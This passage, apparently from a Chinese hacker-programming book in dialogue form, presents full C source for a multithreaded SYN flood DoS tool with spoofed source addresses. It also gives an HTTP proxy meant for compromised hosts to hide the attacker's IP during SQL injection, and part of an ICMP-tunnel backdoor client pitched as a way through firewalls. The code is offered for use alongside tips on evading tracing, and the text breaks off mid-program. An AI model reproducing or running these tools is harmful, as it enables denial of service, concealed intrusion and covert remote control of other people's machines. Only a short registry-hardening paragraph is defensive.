

图3-5

“哇！很多连接都处在 SYN_RECEIVED 状态呢！”马蜂窝说道。  
“大家注意到了吗？源端口和源 IP 都是不定的，因为程序构造出来的 SYN 包中的 IP 和端口是伪造出来的。所以，要找出 SYN 攻击者的 IP 地址是很难的。”

#### 3.3.2 对 SYN Flood 攻击的防御

“这种 DoS 攻击如此恐怖，有什么好的防御办法吗？”冰眼问道。  
“呵呵！如果你是网管，平时不要得罪别人啊！万一得罪了某位，他一天给你来几个 DoS，或者直接利用几台肉鸡来 DoS，到时看你怎么办？”  
“那真的没有办法来预防吗？”马蜂窝问道。

“老实说，服务器一旦开了端口，就有可能会遭受 SYN Flood 攻击（服务器没理由不让客户连接吧），而且攻击者使用的是大量伪造的 IP，这也给追踪攻击者的物理位置带来困难。不过通过一系列的设定，也能从一定程度上降低被攻击系统的负荷，减轻负面的影响。”

“对于 Win2000 来讲，可以通过修改注册表来降低 SYN Flood 的危害，找到注册表的如下位置：`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters`，增加一个 `SynAttackProtect` 的键值，类型为 `REG_DWORD`，取值范围是 0—2，这个值决定了系统受到 SYN 攻击时采取的保护措施，包括减少系统 SYN+ACK 的重试次数等，默认值是 0（没有任何保护措施），推荐设置为 2。增加一个 `TcpMaxHalfOpen` 的键值，类型为 `REG_DWORD`，取值范围是 100—0xFFFF，这个值是系统允许同时打开的半连接，Win2K PRO 和 SERVER 是 100，ADVANCED SERVER 是 500。增加一个 `TcpMaxHalfOpenRetried` 的键值，类型为 `REG_DWORD`，取值范围是 80—0xFFFF，Win2K PRO 和 SERVER 是 80，ADVANCED SERVER 是 400，这个值决定了在什么情况下系统会打开 SYN 攻击保护。”

“好了，说了这么多，都还没给大家介绍今天的程序。下面的程序主要是构建 SYN 包并发送。为了提高发送数据包的速度，程序采用了多线程，根据传入的参数来开启线程数。每个线程设置一个 Socket，用来发送数据，线程之间采用独立的 Socket，这样就防止了多线程共享变量而产生的同步开销。可以说是利用空间换时间。”

“多线程 DoS 程序代码：”

```c
#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>
#pragma comment(lib,"ws2_32.lib")
#define SEQ 0x28376839

int threadnum,maxthread,port;
char *DestIP;   // 目标IP

void display(void)   // 定义状态提示函数
{
    static int play=0;
    // 进度条
    char *plays[12]=
    {
        "|",
        "/",
        "-",
        "\\",
        "|",
        "/",
        "-",
        "\\",
        "|",
        "/",
        "-",
        "\\",
    };

    printf("!=%s= %d threads \r", plays[play], threadnum);
    play=(play==11)?0:play+1;
}

// 定义一个 tcphdr 结构来存放 TCP 首部
typedef struct tcphdr
{
    USHORT th_sport;   //16位源端口号
    USHORT th_dport;   //16位目的端口号
    unsigned int th_seq;   //32位序列号
    unsigned int th_ack;   //32位确认号
    unsigned char th_lenres;   //4位首部长度+6位保留字中的4位
    unsigned char th_flag;   //6位标志位
    USHORT th_win;   //16位窗口大小
    USHORT th_sum;   //16位校验和
    USHORT th_urp;   //16位紧急数据偏移量
} TCP_HEADER;

// 定义一个 iphdr 来存放 IP 首部
```

## 第三章 黑客编程实例

```c
typedef struct iphdr  // IP首部
{
    unsigned char h_verlen;         // 4位首部长度和4位IP版本号
    unsigned char tos;              // 8位类型服务
    unsigned short total_len;       // 16位总长度
    unsigned short ident;           // 16位标志
    unsigned short frag_and_flags;  // 3位标志位
    unsigned char ttl;              // 8位生存时间
    unsigned char proto;            // 8位协议
    unsigned short checksum;        // IP首部校验和
    unsigned int sourceIP;          // 伪造IP地址
    unsigned int destIP;            // 攻击的IP地址
} IP_HEADER;

// TCP伪首部，用于进行TCP校验和的计算，保证TCP校验的有效性
struct
{
    unsigned long saddr;    // 源地址
    unsigned long daddr;    // 目的地址
    char mbz;               // 置空
    char ptcl;              // 协议类型
    unsigned short tcpl;    // TCP长度
} PSD_HEADER;

// 计算校验和函数，先把IP首部的校验和字段设为0(IP_HEADER.checksum=0)，然后计算整个IP首部的二进制反码的和。
USHORT checksum(USHORT *buffer, int size)
{
    unsigned long cksum = 0;
    while (size > 1) {
        cksum += *buffer++;
        size -= sizeof(USHORT);
    }
    if (size) cksum += *(UCHAR *)buffer;
    cksum = (cksum >> 16) + (cksum & 0xffff);
    cksum += (cksum >> 16);
    return (USHORT)(~cksum);
}

DWORD WINAPI SynfloodThread(LPVOID lp)   // SYN Flood线程函数
{
    SOCKET sock = NULL;
    int ErrorCode = 0, flag = true;
    int TimeOut = 2000, FakeIpNet, FakeIpHost, dataSize = 0, SendSEQ = 0;
    struct sockaddr_in sockAddr;
    TCP_HEADER tcpheader;   // TCP首部
    IP_HEADER ipheader;     // IP首部
    char sendBuf[128];      // 发送缓冲区

    sock = WSASocket(AF_INET, SOCK_RAW, IPPROTO_RAW, NULL, 0, WSA_FLAG_OVERLAPPED);
    if (sock == INVALID_SOCKET)
    {
        printf("Socket failed: %d\n", WSAGetLastError());
        return 0;
    }

    // 设置 IP_HDRINCL，以便自己填充 IP 首部
    ErrorCode = setsockopt(sock, IPPROTO_IP, IP_HDRINCL, (char *)&flag, sizeof(int));
    if (ErrorCode == SOCKET_ERROR)
    {
        printf("Set sockopt failed: %d\n", WSAGetLastError());
        return 0;
    }

    // 设置发送超时
    ErrorCode = setsockopt(sock, SOL_SOCKET, SO_SNDTIMEO, (char *)&TimeOut, sizeof(TimeOut));
    if (ErrorCode == SOCKET_ERROR)
    {
        printf("Set sockopt time out failed: %d\n", WSAGetLastError());
        return 0;
    }

    // 设置目标地址
    memset(&sockAddr, 0, sizeof(sockAddr));
    sockAddr.sin_family = AF_INET;
    sockAddr.sin_addr.s_addr = inet_addr(DestIP);
    FakeIpNet = inet_addr(DestIP);
    FakeIpHost = ntohl(FakeIpNet);

    // 填充 IP 首部
    ipheader.h_verlen = (4 << 4 | sizeof(IP_HEADER) / sizeof(unsigned long));
    ipheader.total_len = htons(sizeof(IP_HEADER) + sizeof(TCP_HEADER));
    ipheader.ident = 1;
    ipheader.frag_and_flags = 0;
    ipheader.ttl = 128;
    ipheader.proto = IPPROTO_TCP;
    ipheader.checksum = 0;
    ipheader.sourceIP = htonl(FakeIpHost + SendSEQ);
    ipheader.destIP = inet_addr(DestIP);

    // 填充 TCP 首部
    tcpheader.th_dport = htons(port);
    tcpheader.th_sport = htons(8080);
    tcpheader.th_seq = htonl(SEQ + SendSEQ);
    tcpheader.th_ack = 0;
    tcpheader.th_lenres = (sizeof(TCP_HEADER) / 4 << 4 | 0);
    tcpheader.th_flag = 2;
    tcpheader.th_win = htons(16384);
    tcpheader.th_urp = 0;
    tcpheader.th_sum = 0;

    PSD_HEADER.saddr = ipheader.sourceIP;
    PSD_HEADER.daddr = ipheader.destIP;
    PSD_HEADER.mbz = 0;
    PSD_HEADER.ptcl = IPPROTO_TCP;
    PSD_HEADER.tcpl = htons(sizeof(tcpheader));

    for (;;)
    {
        SendSEQ = (SendSEQ == 65536) ? 1 : SendSEQ + 1;
        ipheader.checksum = 0;
        ipheader.sourceIP = htonl(FakeIpHost + SendSEQ);
        tcpheader.th_seq = htonl(SEQ + SendSEQ);
        tcpheader.th_sport = htons(SendSEQ);
        tcpheader.th_sum = 0;
        PSD_HEADER.saddr = ipheader.sourceIP;

        // 把TCP伪首部和TCP首部复制到同一缓冲区并计算TCP校验和
        memcpy(sendBuf, &PSD_HEADER, sizeof(PSD_HEADER));
        memcpy(sendBuf + sizeof(PSD_HEADER), &tcpheader, sizeof(tcpheader));
        tcpheader.th_sum = checksum((USHORT *)sendBuf, sizeof(PSD_HEADER) + sizeof(tcpheader));

        memcpy(sendBuf, &ipheader, sizeof(ipheader));
        memcpy(sendBuf + sizeof(ipheader), &tcpheader, sizeof(tcpheader));
        memset(sendBuf + sizeof(ipheader) + sizeof(tcpheader), 0, 4);

        dataSize = sizeof(ipheader) + sizeof(tcpheader);
        ipheader.checksum = checksum((USHORT *)sendBuf, dataSize);
        memcpy(sendBuf, &ipheader, sizeof(ipheader));

        // 发送数据
        sendto(sock, sendBuf, dataSize, 0, (struct sockaddr *)&sockAddr, sizeof(sockAddr));
        display();
    }

    // end for
    Sleep(20);
    InterlockedExchangeAdd((long *)&threadnum, -1);   // 线程数减1
    return 0;
}

void usage(char *name)
{
    printf("\t==================SYNFlood==================\n");
    printf("\t======gxjsone@hotmail.com    2004/7/6======\n");
    printf("\tusage: %s [dest_IP] [port] [thread]\n", name);
    printf("\tExample: %s 192.168.1.1 80 100\n", name);
}

int main(int argc, char *argv[])
{
    if (argc != 4)
    {
        usage(argv[0]);
        return 0;
    }

    usage(argv[1]);   // 显示帮助信息
    int ErrorCode = 0;
    DestIP = argv[1];         // 取得目标主机IP
    port = atoi(argv[2]);     // 取得目标端口号
    maxthread = (atoi(argv[3]) > 100) ? 100 : atoi(argv[3]);
    // 如果线程数大于100，则把线程数设置为100

    WSADATA wsaData;

    if ((ErrorCode = WSAStartup(MAKEWORD(2, 2), &wsaData)) != 0) {
        printf("WSAStartup failed, %d\n", ErrorCode);
        return 0;
    }

    printf("[start]........\nPress any key to stop!\n");
    while (threadnum < maxthread)   // 循环创建线程
    {
        if (CreateThread(NULL, 0, SynfloodThread, 0, 0, 0))
        {
            Sleep(10);
            threadnum++;
        }
    }

    WSACleanup();
    printf("\n[Stopped]:.........\n");
    return 0;
}
```

### 3.4 HTTP代理程序设计

- 前置知识：Socket编程、多线程
- 难度：初级
- 编译环境：VC6.0 + Win2000


“想当年（2001年），找肉鸡特别容易，随便拿个IP段用流光一扫就可找到N台。但现在时代变啦，再想利用IPC$空口令或弱口令进行入侵，实在艰难！大家说现在最流行的入侵方法是什么啊？”

“现在最流行的当然是Web注入（Injection）方式啦！利用它来获取控制权。而且现在很多网站的ASP、PHP、JSP程序都会存在SQL Injection漏洞。”我是良民说道。

“嗯，看来大家都懂得与时俱进啊！但利用SQL Injection攻击，目标主机的IIS会记录下我们提交的所有东西，包括IP地址。入侵最重要的一个环节就是隐藏自己（万一被记录了IP让警察叔叔带去聊聊就不好咯）。”

“那我们在进行注入时应该怎样隐藏自己呢？”多多喵问道。

“代理服务器。我们先找台肉鸡，再在上面安装HTTP代理，设置IE的代理服务器，然后通过代理来进行注入攻击，这样在目标主机上记录下来的就是肉鸡的IP地址了。下面我们就写个简单的代理程序。”

“请问代理服务器的原理是怎样的？”刀蜂窝问道。

“代理程序其实起着一个中转作用。我们把HTTP请求先发送到代理服务器，然后代理服务器向指定的网站发出连接请求，然后建立如下的连接：客户→代理→网站服务器。即客户与网站之间没有建立起真正的连接，所有数据都通过代理服务器中转。这样一来，网站的服务器上就不能记录我们的IP地址了。”

“那我们如何来编程实现代理程序呢？”

“其实，编写代理程序并不难，我们只要有Socket编程知识就OK了。另外，因为访问一个网页往往会同时发起多个HTTP连接（因为里面有很多图片和其他例如Flash的资源），所以我们要利用到多线程，为每个连接创建一个线程。”

“能否具体点说明程序流程啊？”

“嗯，首先我们要把IE连接到代理服务器，这一步要在IE里设置。然后当我们提交一个URL时（例如http://www.nohack.cn），IE会把这个URL提交到我们的代理程序里，代理程序分析这个URL，取得www.nohack.cn的域名，然后通过域名取得IP地址。有了IP地址后，就连接到远端的80端口，再发出GET请求。当网站返回数据时，我们的代理程序再把数据发送到我们的IE，这就是具体流程。下面我们来看看具体的代码实现：”

```c
#include <stdio.h>
// 在自己机器上调试时可以利用printf输出相关信息，所以要包含stdio.h这个头文件
// 如果真正用在肉鸡上，我们就没必要再利用printf来输出信息，也就不用包含这个头文件了
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib");

#define MaxBuf 20480      // 数据缓冲区大小
#define Addr_Len 64       // 服务器地址长度，例如www.nohack.cn的长度
#define TIME_WAIT 2000    // 连接超时

SOCKET client[1000];      // 最大并发连接数

DWORD WINAPI Proxy(LPVOID pSocket);   // 代理线程
int httprequest(char *SourceBuf, int DataLen, void *ServerAddr);

// 分析 URL 的函数
int main(int argc, char *argv[])    // 主函数开始
{
    SOCKET MainSocket, ClientSocket;
    // 这里建立两个 Socket，一个用于接受连接，另一个用于保存新建的连接
    struct sockaddr_in Host, Client;
    WSADATA WsaData;
    int AddLen, socketcount;

    // 初始化
    if (WSAStartup(MAKEWORD(2,2), &WsaData) < 0)
    {
        printf("WSAStartup Failed!\n");
        return 1;
    }

    // 创建 socket 端口
    MainSocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if (MainSocket == SOCKET_ERROR)
    {
        printf("Create socket error!\n");
        return 1;
    }

    Host.sin_family = AF_INET;
    Host.sin_port = htons(8080);    // 代理服务器端口
    Host.sin_addr.s_addr = inet_addr("127.0.0.1");

    // 绑定 Socket
    if (bind(MainSocket, (SOCKADDR *)&Host, sizeof(Host)) != 0)
    {
        printf("Bind error!\n");
    }

    socketcount = 0;    // Socket连接数

    // 监听
    if (listen(MainSocket, 5) == SOCKET_ERROR)
    {
        printf("Listen error!\n");
    }

    AddLen = sizeof(Client);
    printf("Working...\n");

    // 接受新的客户连接
    for (;;)
    {
        ClientSocket = accept(MainSocket, (SOCKADDR *)&Client, &AddLen);
        // 当有连接请求时，把该连接保存到新的 Socket 中

        if (ClientSocket == SOCKET_ERROR)
        {
            printf("Accept error!\n");
        }

        socketcount++;
        if (socketcount >= 1000) socketcount = 0;
        client[socketcount] = ClientSocket;

        // 对于每一个客户连接启动新的线程进行控制
        CreateThread(NULL, 0, Proxy, (LPVOID)client[socketcount], 0, NULL);
    }

    return 0;
}

DWORD WINAPI Proxy(LPVOID pSocket)   // 代理线程
{
    SOCKET ClientSocket;
    char ReceiveBuf[MaxBuf];
    int DataLen;
    struct sockaddr_in ServerAddr;
    SOCKET ProxySocket;
    int i = 0;
    int time = TIME_WAIT;

    // 得到参数中的端口号信息
    ClientSocket = (SOCKET)pSocket;

    // 接受第一次请求信息
    memset(ReceiveBuf, 0, MaxBuf);
    DataLen = recv(ClientSocket, ReceiveBuf, MaxBuf, 0);

    // 首先从客户中取得数据
    if (DataLen == SOCKET_ERROR)
    {
        printf("Receive error!\n");
        closesocket(ClientSocket);
        return 1;
    }
    if (DataLen == 0)
    {
        closesocket(ClientSocket);
        return 1;
    }

    // 处理请求信息，分离出服务器地址
    if (httprequest(ReceiveBuf, DataLen, (void *)&ServerAddr) < 0)
    {
        closesocket(ClientSocket);
    }
}
```

## 第三章 黑客编程实例

```c
goto error;
}

// 创建新的 Socket，用来和服务器进行连接
ProxySocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
// 设置超时时间
setsockopt(ProxySocket, SOL_SOCKET, SO_RCVTIMEO, (char *)&time, sizeof(time));
if (ProxySocket == SOCKET_ERROR)
{
    printf("Create socket error!\n");
    return 0;
}
if (connect(ProxySocket, (SOCKADDR*)&ServerAddr, sizeof(ServerAddr)) == SOCKET_ERROR)
{
    printf("Connect error!\n");
    goto error;
}

// 开始进行数据传输处理
// 发送到服务器端
if (send(ProxySocket, ReceiveBuf, DataLen, 0) == SOCKET_ERROR)
{
    printf("Send data error!\n");
    goto error;
}

// 从服务器端接收数据
while (DataLen > 0)
{
    memset(ReceiveBuf, 0, MaxBuf);

    if ((DataLen = recv(ProxySocket, ReceiveBuf, MaxBuf, 0)) <= 0)
    {
        printf("Receive error!\n");
        break;
    }
    else
    {
        // 发送到客户端
        if (send(ClientSocket, ReceiveBuf, DataLen, 0) < 0)
        {
            printf("Send error!\n");
            break;
        }
    }
}

error:
    closesocket(ClientSocket);
    closesocket(ProxySocket);

    return 0;
}

int _httprequest(char *SourceBuf, int DataLen, void *ServerAddr)
{
    char *HttpHead = "http://";
    char *FirstLocation = NULL;
    char *LastLocation = NULL;
    char *PortLocation = NULL;
    char ServerName[Addr_Len];
    char PortString[32];
    int NameLen;
    struct hostent *pHost;
    struct sockaddr_in *pServer = (struct sockaddr_in *)ServerAddr;
    // 取得“http://”的位置
    FirstLocation = strstr(SourceBuf, HttpHead) + strlen(HttpHead);
    // 取得“/”的位置
    printf("%s\n", FirstLocation);
    LastLocation = strstr(FirstLocation, "/");

    // 得到“http://”和“/”之间的服务器名称
    memset(ServerName, 0, Addr_Len);
    memcpy(ServerName, FirstLocation, LastLocation - FirstLocation);

    // 有些情况下，请求的地址中带有端口号，格式为“:”“端口号”
    // 取得“:”的位置
    PortLocation = strstr(ServerName, ":");
    // 填充 server 结构
    pServer->sin_family = AF_INET;
    // 在 URI 中指定了服务器端口
    if (PortLocation != NULL)
    {
        NameLen = PortLocation - ServerName - 1;
        memset(PortString, 0, 10);
        memcpy(PortString, PortLocation + 1, NameLen);
        pServer->sin_port = htons((u_short)atoi(PortString));
        *PortLocation = 0;
    }
    else    // 在 URI 中，没有指定服务器端口
    {
        pServer->sin_port = htons(80);
    }

    if (NameLen > Addr_Len)
    {
        printf("Server name too long!\n");
        return -1;
    }

    // 得到服务器信息
    // 如果地址信息是以 IP 地址（192.168.0.1）的形式出现的
    if (ServerName[0] >= '0' && ServerName[0] <= '9')
    {
        pServer->sin_addr.s_addr = inet_addr(ServerName);
    }
    // 以域名的形式出现的（www.nohack.cn）
    else
    {
        // 利用 gethostbyname 从域名取得 IP 地址
        pHost = (struct hostent *)gethostbyname(ServerName);
        if (!pHost)
        {
            printf("Get host error!\n");
            printf("%s\n", ServerName);
            return -1;
        }
        memcpy(&pServer->sin_addr, pHost->h_addr_list[0], sizeof(pServer->sin_addr));
    }

    return 0;
}
```

“好了，这个 HTTP 代理程序就介绍到此，大家以后玩注入时记得要用代理来保护自己，安全第一嘛！”

“嗯！通过代理来入侵，我们可很好地隐藏自己，以后还是小心为妙。这个程序我们编译好后就可以用了！”

### 3.5 ICMP 通道后门原理及实现



- 前置知识：ICMP 数据结构、Socket Raw 编程
- 难度：高
- 编译环境：VC6.0 + Win2000
- 测试环境：Win2000 + ADSL

“普通的后门程序通常都是在远端主机上开一个端口，并绑定一个 shell，入侵者通过这个 shell 来执行命令，这种基于 TCP/IP 连接后门的缺点很明显，只需要一些简单的‘端口－进程’查看器就可发现可疑端口，也可用 netstat 命令检查出来。”

“有没有不开端口的后门？”马蜂窝问道。

“答案是肯定的。没有办不到的事情，只有想不到的事情。我们多动脑筋就可发现很多东西是可以改造的！下面我就给大家介绍一下 ICMP 后门。”

**小知识 ICMP 后门**

ICMP 的全称是 Internet Control Message Protocol。它是一种差错报告机制，可被用来向目的主机报告或者请求各种网络信息。这些信息包括回送应答（ping）、目的地不可达、源站抑制、回送请求、掩码请求和掩码应答，还有路由跟踪等。这些信息是用 ICMP 数据报报头中一个字节长度的类型码来区别的。

“那么 ICMP 协议跟不开端口的后门有什么联系？”

“ICMP 协议有个特点是：它是无连接的，由 IP 模块实现。由于 IP 层协议是一种点对点的协议，而非端对端的协议，它提供无连接的数据报服务，没有端口的概念。因此，我们只需设置 IP 地址就能发送 ICMP 数据。我们可在 ICMP 包中添加数据进行发送，就像利用 TCP 连接发送数据那样。”

“为什么我们可以在 ICMP 包中添加数据进行发送呢？”

“嗯，为了让大家可以理解为什么能在 ICMP 包中添加数据，我们先来看看图 3－6。”

| 类型 | 代码 | 校验码 |
|---|---|---|
| 标识符 | 序列码 |  |
| 数据 |  |  |

图 3－6

“图 3－6 就是一个 ICMP 数据包的基本结构，ICMP 的数据报是封装在 IP 报头里的。与其它协议的数据报一样，它也是由报头加上数据部分构成的，报头的格式可以用一个数据结构来表示（要注意的是，里面的顺序不能搞错）。”

```c
typedef struct _ihdr
{
    BYTE i_type;      //8位类型
    BYTE i_code;      //8位代码
    USHORT i_cksum;   //16位校验和
    USHORT i_id;      //标识号
    USHORT i_seq;     //报文序列号
    ULONG timestamp;  //时间戳
} IcmpHeader;
```

“大家应该留意到图 3－6 的‘数据’区域吧？”

“嗯，难道我们就可以在这里存放我们的数据？”多多喵疑惑地问道。  
“没错！这就是关键所在。”  
“为什么我们可以在这里存放我们的数据啊？”冰眼问道。  
“哈哈，举个例子吧。假如我们要给远方的朋友寄一封信，怎样才能让他收到？”  
“一定要贴邮票！”马蜂窝抢先答道。  
!@#￥%^&×……  
“邮票当然要贴，最重要的是，要写上收信人地址。当然，信封是比较大的，地址不可能把信封都写满。因此，我们可在信封空白的地方写上我们的额外信息（只要我们愿意，而且额外的信息不会把收信人的地址覆盖掉）。”  
“难道 ICMP 数据可以这样进行通信？”冰眼说道。  
“对啊！就像两个人单单利用一个信封而不用信纸进行通信，即在信封的空白地方写上通信的内容。”

“那么 ICMP 数据包可以携带的数据有多大？”我是良民问道。  
“理论上的 ICMP 报文最多可以携带 65500 Byte，就像一个信封，空白的地方是有限的，不可能让你写无限多的内容。”  
“利用 ICMP 数据包进行通信有什么优点？”冰眼又问道。  
“前面已经说过了。首先，ICMP 包是无连接的数据报服务，没有端口的概念，所以不开端口，隐藏性比较好。另外一个功能就是可以穿透防火墙！”

“哇塞！穿透防火墙？是不是真的？很多后门都不能穿透防火墙呢！以前哪些反弹端口木马、后门说是可以穿透防火墙，其实也不行，因为现在的防火墙对内、对外的连接都很严格，所以如果是内部发起的连接，防火墙一样能够截获。这里你说可以穿透防火墙，又是怎么实现的呢？”我是良民问道。  
“大家来做个试验吧！都安装防火墙了吗？”  
“那当然了，现在的网络可以说是水深火热，稍有点安全意识的人都会安装防火墙的。”蓝狐答道。  
“那好，大家把防火墙打开，然后随便 ping 一个存在的 IP 地址，看看能不能 ping 通。”  
“我 ping 了 www.163.com，可以 ping 通呢！”  
“我 ping 了 google，也可以 ping 通。”  
……

“嗯，大家看到了，我们的防火墙开了，但还是可以 ping 通外面的网站，也就是说 ICMP 数据还是可以进出本机。如果我们利用 ICMP 数据包进行通信的话，就可穿透防火墙了。”  
“我们可以 ping 到外面的主机，但防火墙里有个选项是防止别人 ping 我们的啊！那别人 ping 不了我们，是不是他们发给我们的 ICMP 数据包就会被防火墙拦截呢？”我是良民问道。  
“这里还有一个 ICMP 数据包的类型问题。当我们 ping 别人时，发出的是类型为 8 的 ICMP 数据包，而别人收到这个数据包就会返回一个类型为 0 的 ICMP 数据包。防火墙允许我们 ping 别人，实际上就是允许类型为 8 的 ICMP 包出去，同时允许类型为 0 的 ICMP 包进来。而别人 ping 我们时，发给我们的是类型为 8 的 ICMP 数据包，此时这个数据包就会被防火墙拦截。大家应该明白这个道理吧？”  
“嗯！现在明白了，ping 原来是这么一回事！”冰眼说道。

“好了，既然我们明白了利用 ICMP 可以进行数据传输，那么我们就来看看是怎样实现的。首先，我们要自己构造 ICMP 数据包，然后往数据包的后面加上要远程主机执行的命令，再把数据包发送到远程主机。远程主机要想收到我们的数据包，就要用到 Socket Raw 编程，也就是创建一个 Sniff 来嗅探 ICMP 类型的数据包。收到数据包后，要进行解包，把 ICMP 数据包后面的命令提取出来，然后处理执行。再把执行结果又放进一个 ICMP 数据包里，再发回给客户端。客户端把结果提取出来，打印在屏幕上。这就是基本的实现原理。”

“那穿透防火墙呢？”多多喵问道。

“这个嘛，我们前面讲过了，防火墙允许自己 ping 别人，就一定会让类型为 8 的 ICMP 包出去，以及让类型为 0 的 ICMP 包进来。所以，把带有命令的 ICMP 包伪装成类型为 0 的 ICMP 包，防火墙就以为是你 ping 别人后返回的 ICMP 包，这个包就可以进来了。而带有执行结果的 ICMP 包，我们把它做成类型为 8 的包发出去，防火墙会以为你想 ping 别人，那么这个包也就可以出去了。这样就可以穿透防火墙了哦！”

“但我刚才在防火墙规则里发现可以把‘允许自己 ping 别人’一项去掉啊，如果那样，ICMP 包是不是不能进出了呢？”细心的蓝狐说道。

“的确是，如果他把‘允许自己 ping 别人’一项禁止的话，我们就不能利用 ICMP 包进行通信了，即我们这个后门就无用武之地了。不过，大家放心吧！防火墙默认这项是允许的。而且懂得修改防火墙规则的人不多，大家放心吧！只懂得玩游戏和聊天泡 MM 的人大多了，不像你们那么热爱技术。所以这个问题大家还是可以放心的！”

“具体实现如下，先看客户端：”

```c
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#pragma comment(lib,"ws2_32.lib")
char SendMsg[256];

/* IP头 */
typedef struct iphdr {
    unsigned int h_len:4;      // 4位首部长
    unsigned int version:4;    // IP版本号，4表示IPV4
    unsigned char tos;         // 8位服务类型TOS
    unsigned short total_len;  // 16位总长度（字节）
    unsigned short ident;      // 16位标识
    unsigned short frag_and_flags; // 3位标志位
    unsigned char ttl;         // 8位生存时间TTL
    unsigned char proto;       // 8位协议（TCP、UDP或其他）
    unsigned short checksum;   // 16位IP首部校验和
    unsigned int sourceIP;     // 32位源IP地址
    unsigned int destIP;       // 32位目的IP地址
} IpHeader;

/* ICMP头 */
typedef struct _ihdr
{
    BYTE i_type;      //8位类型
    BYTE i_code;      //8位代码
    USHORT i_cksum;   //16位校验和
    USHORT i_id;      //识别号（一般用进程号作为识别号）
    USHORT i_seq;     //报文序列号
    ULONG timestamp;  //时间戳
} IcmpHeader;

#define STATUS_FAILED 0xFFFF
#define MAX_PACKET 2000
char arg[1450];
#define xmalloc(s) HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, (s))
void fill_icmp_data(char *, int);
USHORT checksum(USHORT *, int);
void decode_resp(char *, int, struct sockaddr_in *);   // ICMP解包函数
void help(void);
void usage(char *prog);

int main(int argc, char *argv[])
{
    char *ICMP_DEST_IP;     // 目标主机的IP
    char *recvbuf;          // 设置接收缓冲区
    ICMP_DEST_IP = argv[1]; // 取得目标主机IP
    WSADATA wsaData;
    SOCKET sockRaw;
    struct sockaddr_in dest, from;   // 两个地址结构
    int datasize;   // 这里就是定义报文的大小
    int fromlen = sizeof(from);
    char *icmp_data;

    if (WSAStartup(MAKEWORD(2, 2), &wsaData) != 0)
    // WSAStartup()是连接应用程序与Winsock.dll的第一个调用；任何网络应用程序都需要用这个函数初始化
    {
        fprintf(stderr, "WSAStartup failed: %d\n", GetLastError());
        ExitProcess(STATUS_FAILED);
    }

    sockRaw = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP);
    // 在Win2000下使用SOCK_RAW需要管理员权限。SOCK_RAW这个参数表示接收所有原始数据报，第三个参数表示协议为ICMP
    int timeout = 1000;
    setsockopt(sockRaw, SOL_SOCKET, SO_SNDTIMEO, (char *)&timeout, sizeof(timeout));
    timeout = 2000;
    setsockopt(sockRaw, SOL_SOCKET, SO_RCVTIMEO, (char *)&timeout, sizeof(timeout));
}
```

## 第三章 黑客编程实例

```c
// 由于 ICMP 数据报在网络上的传输需要一定的时间，所以我们要设定延时。
memset(&dest, 0, sizeof(dest));
dest.sin_addr.s_addr = inet_addr(ICMP_DEST_IP);   // 填充目标地址信息
dest.sin_family = AF_INET;
usage(argv[0]);

__try {    // 我们不知道程序会不会出错，所以要用 __try 来监视异常。我们应当养成这样的良好编程习惯
    for(;;) {   // 循环读取命令和发送
        printf("ICMP-CMD>");
        fgets(SendMsg, 1024, stdin);    // 取得命令行，保存在 SendMsg 数组中
        if(!strcmp(SendMsg, "Q\n") || !strcmp(SendMsg, "q\n")) ExitProcess(0);
        if(!strcmp(SendMsg, "\n")) continue;
        if(!strcmp(SendMsg, "H\n") || !strcmp(SendMsg, "h\n")) { help(); continue; }
        if(!memcmp(SendMsg, "http://", 7))
            if(!strstr(SendMsg, ".")) { printf("\nFileName Error, Use \"*-FileName\"\n"); continue; }

        datasize = strlen(SendMsg);   // 根据输入命令的大小定义报文大小
        datasize += sizeof(IcmpHeader);   // 整个报文的大小是数据项大小加上 ICMP 头部的大小

